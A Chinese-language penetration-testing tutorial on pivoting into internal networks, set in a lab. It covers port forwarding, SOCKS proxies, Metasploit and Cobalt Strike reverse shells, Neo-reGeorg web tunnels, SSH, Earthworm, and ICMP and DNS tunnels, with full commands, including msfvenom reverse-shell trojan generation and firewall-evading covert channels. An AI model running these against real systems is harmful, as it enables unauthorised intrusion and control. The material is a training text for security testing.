# 隧道应用需了解的知识

## 端口映射和端口转发

### 端口映射

端口映射就是将外网的主机的一个端口映射到内网主机的一个端口，提供相应的服务。当用户访问外网IP的这个端口时，服务器自动将请求映射到对应局域网内部的机器上


### 端口转发

端口转发就是将发往外网指定端口的通信完全转发给内网的指定端口


### 两者的区分

端口映射可以实现外网到内网和内网到外网的双向通信, 而端口转发只能实现外网到内网的单向通信


## 正向后门与反向后门

后门若按照连接的方式进行分类可分为正向后门与反向后门


### 正向后门

正向后门在受害机运行后会开启监听端口, 等待控制机进行连接控制

正向后门需要控制机能够直接通过ip的形式访问受害机, 也就说假如你在内网的机器安装了一个正向后门, 但是外网的攻击机是不能直接连接受害机的, 除非将内网机器的端口映射到外网


### 反向后门

反向后门在受害机运行后会尝试获取控制机的地址以及端口, 获取成功后会主动连接控制机

反向后门需要受害机能够直接通过ip的形式访问控制机, 也就是说受害机在获取到控制机的ip和端口后能够反向连接到控制机


## Socks代理

### Socks协议的定义

Socks全称为防火墙安全会话转换协议, 是一种网络传输协议, 它通过一个代理服务器在客户端与目标主机之间进行数据交互, 换句话来说, 它相当于扮演一个中间人的角色, 帮助客户端与目标主机进行传话

如下图所示, 客户端通过Socks代理服务器来访问目标主机, 所以客户端与Socks代理服务器和Socks代理服务与目标主机之间进行数据传输所用到是Socks协议

所谓的"科学上网工具"大部分也是基于Socks协议来实现的, 当我们要运行"科学上网工具"时, 需要选着一个代理节点, 其实这个代理节点也就是我们所说的Socks代理服务器

	


根据OSI模型, SOCKS属于会话层的协议, 使用TCP协议传输数据, 因而不提供传递ICMP信息之类的网络层网关服务	

		


### Socks协议的作用

现在大多数的企业为了保证内部网络的安全性, 都会利用防火墙将内部网络和外部网络隔离开来

这些防火墙系统通常以应用层网关的形式, 等待受控的TELNET、FTP、SMTP的接入, 而SOCKS使得这些协议更加安全透明的穿过防火墙

简单来说就是, SOCKS相当于在防护墙穿了个洞, 让合法用户更加方便地访问内部网络


### Socks代理的定义

Socks代理时基于Socks协议的一种代理, 也被业内称为全能代理, 与其它代理不同的是, 它只是简单的传递数据包, 而不关心该数据采用的是何种应用协议, 所以SOCKS代理服务器通常比其他代理服务器速度要快得多


### SOCKS4与SOCKS5的区别

- SOCKS4: 只支持TCP协议, 

- SOCKS5: 支持TCP协议和UDP协议, 还支持身份验证, 服务器域名解析等等


# 一、Netsh端口转发

## 简介

netsh是从Windows 2000开始就有的一个用于配置网络设备的命令行工具 

其中`netsh interface portproxy`是一个配置网络代理的命令,  可以配置ipv4或ipv6的端口转发代理以及双向端口转发代理


## 常用功能

### 添加端口转发(管理员权限)

下述命令的意思是, 若有TCP的链接发送至本机(127.0.0.1)的80端口时, 会将链接转发至目标地址(192.168.52.148)的指定端口(80)

```
netsh interface portproxy add v4tov4 listenport=80 connectport=80 connectaddress=192.168.52.148
```

> `add v4tov4`: 添加一条ipv4至ipv4的端口转发记录
>
> `listenport:` 本机的监听端口
>
> `listenaddress:` 本机的监听地址, 不填默认为本机地址
>
> `connectport:` 目标端口
>
> `connectaddress:` 目标地址


### 删除端口转发(管理员权限)

```
netsh interface portproxy delete v4tov4 listenport=80 listenaddress=127.0.0.1
```

> delete v4tov4: 删除一条ipv4到ipv4的端口转发记录


### 查看所有的端口转发规则

```
netsh interface portproxy show all
```


### 清除所有的端口转发规则

```
netsh interface portproxy reset
```


## http端口转发

### 环境拓扑图

由于攻击机(192.168.47.133)和内网主机(192.168.52.148)不在同一个网段上, 因此攻击机不能访问到内网主机web服务的80端口

但是可以通过在Web服务器使用`netsh`命令将本机的80端口收到的数据转发给内网主机, 来实现攻击机只需访问Web服务器的80端口就能访问到内网主机的80端口

		


### 操作步骤

在Web服务器使用管理员权限执行以下cmd命令, 意思是将本机80端口的数据转发至192.168.52.148的80端口

```
netsh interface portproxy add v4tov4 listenport=80 connectport=80 connectaddress=192.168.52.148
```

	


随后攻击机访问Web服务器`192.168.47.149:80`, 即可访问到内网主机的Web服务

		


## MSF实战演示

### 环境拓扑图

Kali通过将Web服务器作为一个跳板, 将生成的反向木马发送至内网主机, 内网主机运行木马后会主动连接Web服务器, Web服务器通过端口转发功能将内网主机的连接数据转发至kali



​	

### 操作步骤

在kali生成一个反向木马用于让内网主机主动连接Web服务器的5555端口, 然后将此木马放到内网主机中去

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.52.143 lport=5555 -f exe >reverse.exe
```




在Web服务器设置端口转发, 将本机5555端口接收到的数据转发至kali的5555端口

```
netsh interface portproxy add v4tov4 listenport=5555 connectport=5555 connectaddress=192.168.47.134
```

	


在kali的MSF创建监听,监听本机的5555端口

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.47.134
lhost => 192.168.47.134
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```


在内网主机运行木马后, 随后会在MSF返回内网主机的meterpreter会话




# 二、CS连接内网主机

## 正向连接

### 环境拓扑图

	


### 操作步骤		

在CS客户端新建一个TCP协议的监听, 监听端口为`4444`

	


创建无状态木马(Windows Executable(S)), 选择上述建立的TCP监听器, 随后将无状态木马放到不出网的内网主机中去运行, 运行后内网主机就会监听本机的4444端口

	

			


在web服务器的beacon命令行输入: `connect 192.168.52.148 4444`  , 来正向连接内网主机, 随后内网主机在CS上线




## 反向连接	

### 环境拓扑图

若内网主机上部署了防火墙, 那么正向连接很可能会被防火墙拦截掉, 为了解决这一问题可以采用反向连接

反向连接可以突破防护墙的拦截, 这是因为这是从内网主机反向连接出站的

		


### 操作步骤

在Web服务器新建一个中转监听, 监听的ip要填写其内网网卡的ip, 即`192.168.52.143`

	

		


创建无状态木马,监听器选择上述建立的中转监听, 随后将木马扔到内网主机中运行

> Windows 带有生成出的是stageless版本(无状态Windows后门木马)，下面简单说下这个无状态木马的使用方法。一般使用无状态木马的网络环境是这样的
>
> 	
>
> 如果开启了防火墙可能会产生安全警告，最好提前用cmd关闭防火墙或者新建放行规则，然后便可以将无状态木马放入到其他内网机器中执行

	


木马运行后会内网主机会在CS中上线




## 正向与反向连接的区分

在CS客户端的视图中可发现, 正向连接和反向连接两者之间的数据传输方向是截然相反的

		


# 三、burp设置上游代理

## 为何要设置上层代理

Burp Suite设置上游代理的主要原因是为了拦截和修改来自浏览器的请求。当您在使用Burp Suite进行Web应用程序安全测试时，您可能希望模拟攻击者发送恶意请求，以测试应用程序是否能够防御这些攻击。使用上游代理可以帮助您在浏览器和目标服务器之间插入Burp Suite，从而使您能够拦截和修改请求。使用上游代理时，所有的请求和响应都会经过代理服务器，因此代理服务器可以拦截和修改这些请求和响应


## 环境拓扑图

下图是实验搭建拓扑, Burpsuite设置的上游代理是kali的socks代理, 通过上游代理, Burpsuite可以通过Web服务器访问到内网主机

	


## 实验步骤

### 1.与出网的内网主机连接

在kali将msf生成的木马发送至Web服务器(此处就不演示步骤了), 随后开启监听, 接收到一个目标的meterpreter会话

	


### 2.对内网网段开启路由转发

在meterpreter会话命令行输入如下命令:

-  `run get_local_subnets`: 获取目标主机所在的所有网段
-  `run autoroute -s 192.168.52.0/24`: 对指定网段设置路由转发, 设置完后msf正常访问指定的内网网段并进行漏洞利用

- `run autoroute -p:` 查看所有设定了路由转发的网段

> 该路由转发只对msf工具内部生效，如果需要对外部程序也生效可以使用msf创建一个socks代理

	


### 3.配置socks4代理

msf输入如下命令行开启socks4代理服务:

```
msf5 exploit(multi/handler) > use auxiliary/server/socks4a 
msf5 auxiliary(server/socks4a) > run
```

	


设置火狐浏览器的网络代理为socks4代理, 并填写对应的kali的ip地址和1080端口		

	


网络代理设置完毕后可直接访问内网主机80端口的web服务, 但由于火狐的浏览器代理已经设置成了socks4, 这样就无法配置burpsuite的代理进行抓包, 为了解决这一问题, 我们可以在burpsuite设置上层代理

		


### 4.本机系统代理设置成socks4

由于burpsuite的上层代理不支持socks4只支持socks5, 只能先将本机的系统代理设置成socks4, 然后再将burpsuite的上层代理设置成本机的系统代理

这里使用Sockscap工具设置本机的系统代理为socks4, 随后点击测试查看是否设置成功

	

	


打开局域网设置, 查看本机系统代理的端口(默认为25378)

	


### 5.burpsuite设置上层代理

在burpsuite的用户选项处添加上层代理:

- 目标host: `*`表示任意目标地址
- 代理主机和代理端口: 填写本机的系统代理

	


在火狐浏览器网络代理处设置burpsuite的代理服务:`127.0.0.1:8080`

> 注意: 此处有个坑, 火狐浏览器渗透版自带的插件Foxy Proxy Standard配置的`127.0.0.1:8080`代理服务无法配合burpsuite上层代理使用, 我也不知道为什么

	


随后浏览器能直接访问到内网主机对应端口的web服务, 并且在burpsuite也能抓到数据包

	

	


## 流量传输流程图

下图是设置上游代理后的数据传输流程图, 首先我们攻击者的流量会经过Burpsuite代理(127.0.0.1:8080), Burpsuite将此流量发送至上游代理, 也就是本机的系统代理

本机的系统代理设置为kali的socks4代理服务器, 最后流量会发送给kali

由于kali开启了路由转发功能, 可以通过web服务器访问目标内网的所有主机, 因此攻击者的流量最终会流向目标内网主机 

	


# 四、MsfPortfwd端口转发	

## 简介

Meterpreter  shell中的portfwd命令最常用作透视技术，允许直接访问攻击系统无法访问的机器, 例如不出网的内网主机, 前提是你要有一个此内网网段的能出网的主机的Meterpreter shell


## 命令参数

- `add`: 增加端口转发
- `delete`: 删除指定的端口转发
- `list`: 查看端口转发列表
- `flush`: 清除所有的端口转发

- -`L`: 监听的本地主机, 默认为127.0.0.1
- `-h`: 查看帮助
- `-l`: 监听的本地端口
- `-p`: 连接的目标端口
- `-r`: 连接的目标IP


## 常用操作

	


### 内网web服务端口转发

新增一个端口转发记录, 将本地的8080端口数据转发至内网主机的80端口, 也可以说成将内网主机的80端口映射至msf的8080端口

```
portfwd add -l 8080 -r 192.168.52.148 -p 80
```

	


随后浏览器访问msf主机的8080端口:`http://192.168.47.134:8080/`

			


使用burpsuite也可以正常抓取到内网主机的web服务数据包

	

​	

### 内网3389端口转发

将内网主机的3389端口映射至kali(msf)的2222端口

```
portfwd add -l 2222 -r 192.168.52.148 -p 3389
```


kali命令行输入:`rdesktop 127.0.0.1:2222`, 即可远程连接内网主机的桌面服务

	


## 扩展操作

列出设置的所有端口转发的记录

```
portfwd list
```

	


删除指定端口转发记录

```
portfwd delete -l 8080
```

	


删除所有的端口转发记录

```
portfwd flush
```

	

​	

# 五、Neo-reGeorg内网穿透

## 简介

reGeorg是一个能够实现内网穿透的工具，基于socks5协议，且能支持众多脚本

由于此工具使用率过高，导致容易被杀毒软件拦截, 现有一个项目是由reGeorg修改而来, 而且做了加密和免杀处理, 这款工具的名字就叫Neo-reGeorg

Neo-reGeorg下载地址: https://github.com/L-codes/Neo-reGeorg										


## 环境拓扑图

		


## 实战步骤

### 1.生成后门脚本,并放至代理服务器的网站目录

pyhon3执行neoreg.py, 随后在`neoreg_servers`目录生成脚本文件

```
python3 neoreg.py generate -k henry666 
```

> - `-k`: 设置脚本的密钥
>- `generate`: 表示生成脚本文件

		


将生成的脚本`tunnel.php`放到代理服务器的网站根目录

	


### 2.连接脚本文件,本机启用socks5代理

输入如下命令连接脚本, 并开启socks5协议监听本机的1080端口

```
python3 neoreg.py -k henry666 -u http://192.168.47.149/tunnel.php
```

	


浏览器配置网络代理为socks5协议的`127.0.0.1:1080`, 随后访问内网主机的web服务

	

	


### 3.burpsuite设置socks5代理

burpsuite里设置socks5代理, 浏览器代理设置成burpsuite代理(127.0.0.1:8080)

	

	


设置完后可正常抓取内网主机的web服务数据包

	


## 疑惑求解

我在kali上使用python执行脚本文件, 也启用了socks5协议并监听了本机的1080端口, 但是我想在其他机子上的浏览器配置代理为kali机的socks5代理

例如我kali机的ip为192.168.47.134, 然后我在其他机子上浏览器配置的socks5代理为192.168.47.134:1080, 但是配置完后浏览器却不能正常访问内网主机的web服务

跪求大佬帮忙解决下此问题


# 六、SSH端口转发

## 前言

### 什么是SSH隧道	

SSH隧道是使用SSH协议连接两台计算机之间的通道。它使用密钥加密数据传输，并允许计算机之间的安全连接。

通常，SSH隧道用于通过不安全的网络（例如互联网）连接到远程服务器。隧道提供了一种安全的方法来访问远程服务器，而无需担心数据被窃取。

要使用SSH隧道，需要有远程服务器的SSH登录凭据，包括用户名和密码或SSH密钥。还需要安装并运行SSH客户端软件，例如PuTTY或OpenSSH。使用这些工具，可以连接到远程服务器并使用SSH隧道。

总之，SSH隧道是一种安全连接两台计算机的方法，可以在不安全的网络中传输数据并访问远程服务器


### 什么是SSH端口转发

SSH端口转发是使用SSH隧道将本地计算机的端口映射到远程计算机的端口的功能。这样就可以使用本地计算机访问远程计算机上的服务，而无需直接连接到远程计算机

正向SSH端口转发用于允许本地计算机访问远程计算机上的服务，而反向SSH端口转发用于允许远程计算机访问本地计算机上的服务。

使用反向SSH端口转发时，需要注意的一点是，需要在本地计算机上打开防火墙规则，允许远程计算机连接到本地计算机的端口。如果防火墙规则阻止了连接，则反向SSH端口转发将无法正常工作


## SSH常用命令参数

- -C: 表示压缩数据传输
- -N: 告诉SSH客户端, 此连接不需要执行任何命令, 仅用于端口转发
- -L: 指定本地转发端口
- -R: 指定远程转发端口
- -f: 表示SSH连接在后台运行
- -q: 表示安静模式, 不向用户输出任何警告信息


## Windows安装SSH服务

### 1.下载OpenSSH文件

OpenSSH下载地址: https://github.com/PowerShell/Win32-OpenSSH/releases




### 2.解压文件至相应文件夹

	


### 3.设置环境变量

此处我添加的环境变量为: `E:\HackerTools\Intranet Penetration\Tunnel Tools\OpenSSH-Win64`

	


### 4.CMD测试SSH命令

cmd命令行输入: `ssh`, 出现如下界面代表ssh服务安装成功

	


## SSH正向端口转发访问内网

### 拓扑环境

	

本地端口转发本质上是一种正向连接, 通过让代理服务器作为跳板将内网主机的指定端口映射至本地主机(攻击机)的指定端口


### 操作步骤

在攻击机执行如下ssh命令, 然后输入ssh连接远程服务器, 并输入对应用户的密码

```
ssh -L 7777:192.168.52.149:80 root@192.168.47.151 -fN
```

> SSH正向端口转发命令语法: `ssh -L [本地端口]:[目标IP]:[目标端口] [跳板机ip及用户名] -fN`

	


随后攻击机访问本机的7777端口, 即可访问内网主机80端口的Web服务

	


## SSH反向端口转发访问内网

### 拓扑环境

	

SSH远程端口转发其实相当于一个反向连接, 如上图所示, 代理服务器和内网主机之间有一个防火墙, 由于防火墙限制了内网主机80端口的访问, 因此需要内网主机主动去连接代理服务器, 将本地的指定端口映射到远程服务器的指定端口, 以此来突破防火墙的限制

若将内网主机的80端口映射至代理服务器的6666端口, 那么攻击机就能通过访问代理服务器的6666端口访问到内网主机的80端口


### 操作步骤

在代理服务器修改ssh服务的配置文件: `vim /etc/ssh/sshd_config`, 将GatewayPorts设置为yes, 然后保存文件

> 若不将GatewayPorts设置为yes, 那么映射的端口只能绑定在127.0.0.1上, 也就是说只有本机才能访问映射的端口, 其他机器是无法访问到的; 将GatewayPorts设置为yes后, 映射的端口会绑定在0.0.0.0上

	


修改完ssh配置文件后重启sshd服务: `service sshd restart`	

	


在内网主机执行如下代码, 意思是将本地主机的80端口与远程服务器的6666端口相互映射

```
ssh -N -R [远程端口]:[本地ip]:[本地端口] [用户名及远程服务器ip] -fN
```

> SSH反向端口转发命令语法: `ssh -N -R [远程端口]:[本地ip]:[本地端口] 远程服务器`

	


在攻击机访问代理服务器的6666端口, 即可访问到内网主机80端口的web服务			

	


# 七、Earthworm内网穿透

## 简介

EW（蚯蚓突破）是一款功能强大的网络穿透工具，它具备SOCKS5服务架设和端口转发两大核心功能，能够应对复杂的网络环境，并实现网络穿透。通过正向、反向、多级级联等方式，EW可以在防火墙限制下创建网络隧道，达到访问内网资源的目的。

EW的主要特点如下：

1. 跨平台支持：EW提供了多种可执行文件，支持Linux、Windows、MacOS和Arm-Linux等操作系统，实现了广泛的平台兼容性。
2. 强大的穿透能力：EW能够实现正向、反向、多级级联等多种穿透方式，可根据不同的网络环境进行灵活配置。
3. 高效的端口转发：用户可通过EW的端口转发功能实现内外网之间的通信，方便用户访问内网资源。
4. SOCKS5服务架设：通过EW的SOCKS5代理服务，用户可以在复杂网络环境下进行安全、高效的网络访问。
5. 简单易用：EW的使用方法相对简单，用户只需根据需求进行基本配置即可实现网络穿透


## 正向代理

### 拓扑环境

	


### 操作步骤

在代理服务器win7打开ew执行如下命令, 开启socks5协议监听本机的6666端口

```
ew_for_win.exe -s ssocksd -l 6666
```

	


在攻击机的浏览器设置socks5代理: `192.168.47.149:6666`, 随后可正常访问内网主机的web端口	

	

	


若你的攻击机为kali的话, 可以设置proxychains的配置文件: `vim /etc/proxychains.conf`, 添加上socks5的代理服务器ip及端口: `socks5 192.168.47.149 6666`

	


使用proxychains命令配合nmap扫描内网主机的指定端口: `proxychains nmap -sT -Pn -p 80 192.168.52.148`

	

​			

## 反向代理

### 拓扑环境

	


### 操作步骤

在代理服务器上执行如下命令, 意思是将本机的1080端口的数据转发至6666端口

```
ew_for_Win.exe -s rcscocks -l 1080 -e 6666
```

	


在内网主机执行如下命令, 意思是将本机的所有流量转发至192.168.52.143的6666端口

```
ew_for_Win.exe -s rsscocks -d 192.168.52.143 -e 6666
```

	


在攻击机设置浏览器的socks5代理为`192.168.47.149:1080`, 随后可直接访问内网主机的web服务

	

		


# 八、ICMP隧道传输	

## 简介

### ICMP协议

ICMP(Internet Control Message Protocol), 全称为Internet控制报文协议, 它是TCP/IP协议的一个子协议，用于在IP主机、路由器之间传递控制消息。

控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。

ping命令使用第三层即网络层协议，通过ICMP载荷发送消息，该数据包会被封装上IP头


### 使用场景

在渗透测试工作中，经常会碰到web入口机或内网主机无论使用TCP、UDP都无法使其上线c2服务端，而且web入口主机被层层waf保护，reg、abtts、tunna等HTTP代理都无法使用的情况。如果目标主机可以ping通外网，不拦截icmp数据包，那此时可选择使用icmp协议隧道把目标内网流量转发出来。防火墙一般也不会屏蔽ping的数据包


### ICMP隧道原理

将包含payload的IP流量封装在ICMP请求数据包中, 并发送给ICMP服务端, 服务端收到数据包后会对其解包并转发IP流量, 在发往客户端的数据包会再次封装在ICMP回复数据包中

也就是说客户端与服务端之间的通信只使用了ICMP协议


## PingTunnel工具

PingTunnel是一款常用的ICMP隧道工具，可以跨平台使用，为了避免隧道被滥用，可以为隧道设置密码


### 环境拓扑

	


### 工具安装

在kali安装libpcap的依赖环境

```
apt-get install byacc
apt-get install flex bison
```

	

	


执行如下命令, 下载libpcap的依赖库:  http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz

```
wegt http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -zxvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
make && make install
```

	

	


执行如下命令, 下载PingTunnel: http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz

```
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
tar -zxvf PingTunnel-0.72
cd PingTunnel
make && make install
```




### 报错解决

在web服务器也要按照如上步骤安装依赖环境和PingTunnel工具, 此处我的web服务器是ubuntu, 在使用ptunnel命令时遇到如下图所示的错误, 解决方法很简单

	


建立软连接

```
sudo ln -s /usr/local/lib/libpcap.so.1  /usr/lib/libpcap.so.1
```


增加如下内容至`/etc/ld.so.conf`文件	

```
/usr/local/lib
/usr/lib
```

	


重新加载配置: `ldconfig`			

	


### 使用步骤

在web服务器执行如下指令, 设置icmp隧道连接密码

```
ptunnel -x henry666  //创建连接密码
```

	


在kali(攻击机)执行如下命令连接web服务器, 意思是当访问本地(kali)的1080端口时, 会把内网主机80端口的数据封装在ICMP隧道中, 以Web服务器作为跳板与kali进行数据交互

```
ptunnel -p 192.168.47.151 -lp 1080 -da 192.168.52.129 -dp 80 -x henry666
```

> -p: 指定ICMP隧道另一端的IP(跳板机IP)
>
> -lp: 监听的本地端口
>
> -da: 指定要转发的目标主机IP
>
> -dp: 指定要转发的目标主机端口
>
> -x: 指定连接密码


随后kali访问本机的1080端口, 即可访问到内网主机的80端口




## icmptunnel工具

### 工具介绍

IcmpTunnel工具是jamesbarlow师傅用C语言写的, 通过创虚拟网卡, 使用ICMP协议传输IP流量, 以此来通过有状态的防火墙和NAT进行隧道传输

工具下载地址: https://github.com/jamesbarlow/icmptunnel

**此工具的使用条件如下:**

- 要求攻击机(服务端)与目标主机(客户端)是linux环境
- 目标主机能够ping通攻击机


### 环境拓扑

		


### 操作步骤

将icmptunnel文件拷贝至攻击机和目标主机, 并在其文件夹内运行`make`命令编译工具

	


在攻击机和目标主机输入如下命令, 禁用内核PING

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

	


进入icmptunnel文件夹执行如下命令, 在攻击机建立虚拟网卡并分配IP

```
root@kali:~/桌面/icmptunnel# ./icmptunnel -s
opened tunnel device: tun1
```

```
root@kali:~/桌面/icmptunnel# ifconfig tun0 10.0.0.1 netmask 255.255.255.0
root@kali:ifconfig
```

> 注意: 分别用两个Shell执行以上两行命令

	


目标主机输入如下命令连接服务端并分配IP, 连接成功会显示"connection established"

```
root@ubuntu:/home/xiaodi/Desktop/icmptunnel# ./icmptunnel 192.168.47.134
opened tunnel device: tun0
connection established.
```

```
root@ubuntu:/home/xiaodi# ifconfig tun0 10.0.0.2 netmask 255.255.255.0
root@ubuntu:ifconfig
```

	


完成以上步骤则代表隧道建立完毕, 可以在攻击机(服务端)使用ssh连接目标主机(客户端)

	


当然客户端也可以连接服务端

	


### 抓包分析

kali机用Wireshark抓取eth0网卡的流量, 可发现所有的TCP流量都封装至ICMP流量中




抓取tun0网卡的流量, 数据包都是TCP或SSH的, 也就是说TCP流量是通过tun0进行点对点之间的传输			




### 入侵检测

**1.检查虚拟网卡信息**

输入`ifconfig`查看网卡配置信息, 若发现陌生的网卡, 则很有可能是有问题的


**2.查看系统的内核ping是否被禁止**

终端命令行输入: `cat /proc/sys/net/ipv4/icmp_echo_ignore_all`, 若为1则表示ping被禁止了

	


**3.抓包分析是否有异常ICMP数据包**

	

​	

## 参考文章

- https://blog.csdn.net/weixin_42282667/article/details/123359169

- https://blog.csdn.net/weixin_44604541/article/details/118898232

- https://cloud.tencent.com/developer/article/2098581


# 九、DNS隧道传输

## 简介

DNS隧道是一种相对隐蔽的隧道， 通过将其他协议封装到DNS协议中来进行传输通信

因为DNS协议是网络中的基础协议且必不可少, 所以大部分防火墙和入侵检测设备是不会对DNS流量进行拦截, 这就给DNS作为隐蔽通信提供了有力条件, 从而可以利用它实现诸如僵尸网络或木马的远程控制通道和对外传输数据等等


**DNS隧道依据其实现方式大致可分为直连和中继两类:**

- **直连:** 用户端直接和指定的目标DNS服务器建立连接，然后将需要传输的数据编码封装在DNS协议中进行通信。这种方式的优点是具有较高速度，但蔽性弱、易被探测追踪的缺点也很明显。另外直连方式的限制比较多，如目前很多的企业网络为了尽可能的降低遭受网络攻击的风险，一般将相关策略配置为仅允许与指定的可信任DNS服务器之间的流量通过

- **中继隧道:** 通过DNS迭代查询而实现的中继DNS隧道，这种方式及其隐秘，且可在绝大部分场景下部署成功。但由于数据包到达目标DNS服务器前需要经过多个节点的跳转，数据传输速度和传输能力较直连会慢很多


## dns2tcp	

### 工具安装及配置

在自己的云服务器上执行如下命令安装dns2tcp工具

```
apt-get update
apt-get install dns2tcp
```

	


修改dns2tcp配置文件: `vim /etc/dns2tcpd.conf`, 设置域名及DNS隧道密码, 注意监听地址要修改成`0.0.0.0`

		


检查云服务器的53端口是否被占用: `netstat -anp | grep "53"`, 发现53端口上运行了`systemd-resolve`服务, 此服务无法使用kill命令进行关闭, 只能使用: `systemctl stop systemd-resolved`

	

​	

### 配置域名解析

此处我选择的是godaddy的域名: henry666.xyz

添加一条A记录,主机记录为dns, 记录值为124.71.209.202

再添加一条NS记录, 主机记录为dns2tcp, 记录值为dns.henry666.xyz

> 解释: A记录表示dns.henry666.xyz指向124.71.209.202; NS记录表示若想要知道dns2tcp.henry666.xyz的ip地址, 就要通过dns.henry666.xyz去查询

	


上述配置完成后, 在我们的云服务器上对53端口抓包来验证NS记录是否设置成功, 命令如下所示:

```
tcpdump -n -i eth0 udp dst port 53
```

	


在客户端cmd命令输入: `nslookup dns2tcp.henry666.xyz`, 随后查看云服务上的抓包情况, 发现有很多数据回显, 说明这些二数据最终都流向了dns.henry666.xyz这个域名服务器

> 这里我简单说明下DNS查询数据的流程: 首先解析此域名会先去本地的hosts文件查询数据, 查询不到再去学校的DNS服务器查询(此处我用的是校园网), 再查询不到又去根域名henry666.xyz的godaddy域名服务器查询, 然后godaddy域名服务器告诉我们此数据要去找dns.henry666.xyz这个域名服务器, 最后数据包流向了我们的云服务器

	




### 服务端操作

服务端(云服务器)输入如下命令运行dns2tcpd工具

```
dns2tcpd -f /etc/dns2tcpd.conf -F -d 3		
```

	


### 客户端操作

将dns2tcp工具解压至客户主机, 并在文件夹打开cmd命令输入: `dns2tcpc -r ssh -k henry666 -z dns2tcp.henry666.xyz 124.71.209.202 -l 8888 -c -d 3`

> -r : 后接服务名称`ssh/socks/http`中的任意一个
> -z : 后接你设置的NS记录以及云服务器ip
> -l : 后接本地监听端口
> -d : 开启Debug模式

		


使用xshell连接本机的8888端口, 随后输入要登录的用户名及密码, 即可连接上云服务器

	

	


### Xshell动态端口转发(dynamic)

鼠标右键ssh会话, 添加隧道转发规则, 此处选择SOCKS, 侦听端口为1080

	


随后点击查看->隧道窗格, 查看刚刚创建的转移规则是否生效




### Proxifier配置系统代理

点击`配置文件->代理服务器`, 添加代理服务器`127.0.0.1:1080`

	

	


### 运行测试

打开火狐浏览器, 搜索IP可发现本机IP为云服务器的IP

> 我用其他浏览器访问网页总是显示“代理服务器连接失败”, 只有使用火狐浏览器才能正常访问页面			

			


在运行浏览器的期间, 可在proxifier界面看到浏览器的网页数据流向至socks代理服务器

		


## 参考文章

- https://blog.csdn.net/a15608445683/article/details/122803795 

- https://blog.csdn.net/jd_cx/article/details/122660833


- https://www.baidu.com/link?url=8_ioEY96YssEa3B_EXOcBNLrb4YDg6sngpAj93DiGuWOX_zZEC8qIUADERWQAsFY&wd=&eqid=d0ca3b550000fa500000000663650fe8


​	

# 十、Frp内网穿透

## 简介

Frp工具下载地址: https://github.com/fatedier/frp/releases

Frp可将处于防火墙或内网后的主机对外网提供http、https、tcp或udp等服务, 例如在虚拟机做个frp内网穿透, 在其他主机访问其映射的vps就能访问到此虚拟机

Frp工具是由go语言写的, 可跨平台使用, 像常见的windows和linux都可使用


## 穿透SSH

### 服务端配置

首先准备一台云服务器vps用于配置Frp服务端, Frp库下载地址: https://github.com/fatedier/frp/releases/download/v0.33.0/frp_0.33.0_linux_amd64.tar.gz, Frp下载好后上传至云服务器并解压

```
tar -zxvf frp_0.45.0_linux_amd64.tar.gz 
```

	


进入Frp文件目录, 修改服务端配置文件`frps.ini`为如下内容: `vim.tiny frps.ini`

```
bind_port = 7000 #服务端与客户端连接的端口

token = henry666 #授权码,在客户端连接的时候会用到


dashboard_port = 7777 #frp后台端口

dashboard_user = admin #管理frp后台的用户账号

dashboard_pwd = admin #管理frp后台的用户密码
```

	

​	

服务端启动frp服务: `./frps -c ./frps.ini`

	


### 客户端配置

首先输入`arch`命令判断客户端主机是什么系统的,我这里演示的kali主机是32位系统, 因此需下载的frp版本为`linux_386.tar.gz`

	




将下载的frp文件解压至客户端主机, 进入frp文件夹, 然后修改`frpc.ini`配置文件为如下内容, 意思是将本机的22端口映射至外网vps的6000端口

```
[common]
server_addr = 180.76.55.245
server_port = 7000
token = henry666  

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22 #本地监听的端口
remote_port = 6000   #外网映射端口               
```


客户端启动frp服务: `./frpc -c ./frpc.ini`




打开Xshell连接`180.76.55.245:6000`端口即可访问到客户端主机22端口的ssh服务

	

		


## 穿透HTTP

### 服务端配置

在上述frps.ini内容基础上添加一行`vhost_http_port`来定义外网映射http服务的端口, 随后输入`./frps -c frps.ini`启动frp服务

```
bind_port = 7000 #服务端与客户端连接的端口
vhost_http_port = 8080 
token = henry666

dashboard_port = 7777 #frp后台端口

dashboard_user = admin #管理frp后台的用户账号

dashboard_pwd = admin #管理frp后台的用户密码
```

	


### 客户端配置

若客户端主机为windows64位系统则需选择frp的版本为`windows_amd64.zip`




将frp文件解压至客户端主机, 修改frpc.ini文件为如下内容

```
[common]
server_addr = 180.76.55.245
server_port = 7000
token = henry666  

[web]
type = http
local_ip = 127.0.0.1
local_port = 80 #本地监听的端口
custom_domains = 180.76.55.245   #填写IP或者域名 
```


在frp文件夹打开终端执行命令:`frpc.exe -c frpc.ini`

	


访问180.76.55.245的8080端口即可访问到内网主机80端口的http服务



​	


## 穿透TCP

### 服务端配置

frps.ini的配置如下所示：

```
[common]
bind_port = 7000  

[socks5]
type = tcp
auth_method = noauth  #表示这个代理不需要验证。如果你需要验证，可以设置为 userpass 并提供 username 和 password
bind_addr = 0.0.0.0
listen_port = 1080
```


启动frp服务端：`./frps -c ./frps.ini`




### 客户端配置	

frpc.ini的配置如下

```
[common]
server_addr = 192.168.47.155
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5  #用SOCKS5代理插件		
```


# 十一、NetCat的使用

## 简介

NetCat是一个通过TCP/UDP在网络中进行读写数据工具，被行内称为“瑞士军刀”，主要用于调试领域、传输领域以及黑客攻击领域。利用该工具可以将网络中一端的数据完整的发送至另一台主机终端显示或存储，常见的应用为文件传输、与好友即时通信、传输流媒体或者作为用来验证服务器的独立的客户端。


## 常用参数

- -4 : 强制nc使用ipv4
- -6 : 强制nc使用ipv6
- -D : 使用socket的方式
- -d : daemon(后台), 设置后台运行
- -l : 开启监听模式
